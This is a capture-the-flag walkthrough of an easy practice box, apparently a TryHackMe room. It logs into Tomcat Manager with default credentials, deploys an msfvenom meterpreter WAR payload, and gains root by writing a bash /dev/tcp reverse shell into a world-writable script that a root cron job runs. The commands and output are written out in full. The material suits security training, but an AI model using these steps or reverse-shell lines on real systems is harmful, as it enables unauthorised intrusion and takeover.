





---

## Introduction

- Difficulty: Easy
- Time: 45 mins

> read user.txt and root.txt

---

## Reconnaissance

With a simple `nmap` scan we can discover some open ports on the machine.

```sh
$ nmap -sC -sV 10.48.145.55
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-30 21:28 +0530
Nmap scan report for 10.48.145.55
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
$
```

The single most important observation is the Apache Tomcat server at 8080. Let's explore the website at `http://10.48.145.55:8080`.



**Manager App** looks interesting. Clicking on it we are asked for username and password.



We don't know the creds yet. You will be amazed to know how we are about to get the creds. I was shocked when I got to know the creds.

Press **Cancel** for now. You will be presented with what looks like a `401 Unauthorized` page, containing some *juicy* information, if you know what I mean. If not, just wait!



Read the text carefully. Do you notice any creds?

The creds for the sign-in dialog are the default creds that Tomcat mentions in their error pages.

```
tomcat:s3cret
```

Using that, we successfully login to the `/manager` page. Scrolling down a bit, we find a **Deploy** section, where we can upload `.war` files to deploy them to server.



> A `.war` file (Web Application Resource or Web application ARchive) is a file used to distribute a collection of JAR-files, Jakarta Server Pages, Jakarta Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application. (Source: Wikipedia)

## Exploit

We find a file upload page where we can craft custom payload as a`.war` file and upload. We will use `msfvenom` for generating payload.

```sh
$ msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.139.54 LPORT=1337 -f war > shell.war
Payload size: 6215 bytes
Final size of war file: 6215 bytes
$
```

> `192.168.139.54` is my THM VPN connected machine's local IP.

So now we have the payload `exploit.war`. We just upload it and click `Deploy`. After deploying, it will show up in the **Applications** list.



Before clicking `/shell` make sure you have your Metasploit reverse shell ready. Here's how you would go about doing that:

```sh
$ msfconsole
[...]
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.139.54
LHOST => 192.168.139.54
msf exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.139.54:1337
```

Now we have a listener on port `1337`. We can now navigate to `/shell` to gain meterpreter access on the web server.

Navigate to `http://10.48.145.55/shell/` and watch the terminal.

```sh
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.139.54:1337 
[*] Sending stage (58073 bytes) to 10.48.145.55
[*] Meterpreter session 1 opened (192.168.139.54:1337 -> 10.48.145.55:42426) at 2026-05-30 23:04:39 +0530

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 4.4.0-159-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter >
```

At the meterpreter prompt, you can type `help` to get a list of available commands. We will use the `shell` command to gain a very basic shell.

```sh
meterpreter > shell
Process 1 created.
Channel 1 created.

```

You may notice there is no prompt. But you have got the shell. Just type `id` and check.

```sh
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
pwd
/
```

Well we are the root directory as `tomcat` user. Let's see what users are on the server.

```sh
ls /home
jack
ls /home/jack
id.sh
test.txt
user.txt
cd /home/jack
cat user.txt
[REDACTED]
```

So we got user flag. Now onto PrivEsc for root flag.

## Privilege Escalation

Do you notice that odd little script named `id.sh` in jack's home directory? Well that's there for a reason. It just contains this:

```sh
#!/bin/bash
id > test.txt
```

Basically it redirects the output of the `id` command to a `test.txt` file. The following snippet confirms that.

```sh
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

But wait! From the output, it it clear that the script is being run as the `root` user. To confirm that, we check the user's crontab file.

> [!INFO] Information
> Crontab is a type of service in Linux systems that contains rules to run scripts at regularly timed intervals. It is to Linux what Task Scheduler is to Windows. Visit [here](https://crontab.guru) to learn more about crontab entries.

```sh
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
```

Surely enough, the last crontab entry says it all. The script is run every minute by the `root` user.

So if we can modify `id.sh` and replace with our code, we can gain root access. We need to check permissions on the file first, to see whether we can write to it.

```sh
ls -l id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```

We can definitely write to it.

Visit [here](https://revshells.com) to generate a payload to copy.


> [!TIP] Heads up!
> Before entering the following command, open a listener on port `1338` in another terminal using `nc -lnvp 1338`.

```sh
echo "/bin/bash -i >& /dev/tcp/192.168.139.54/1338 0>&1" > id.sh
```

Now just wait for root shell to automatically appear. This happens because the script is run every minute as `root` user.

```sh
$ nc -lnvp 1338
listening on [any] 1338 ...
connect to [192.168.139.54] from (UNKNOWN) [10.48.145.55] 41948
bash: cannot set terminal process group (1402): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# ls /root
ls /root
root.txt
root@ubuntu:/home/jack# cat /root/root.txt
cat /root/root.txt
[REDACTED]
```

There you go! You have the root flag!
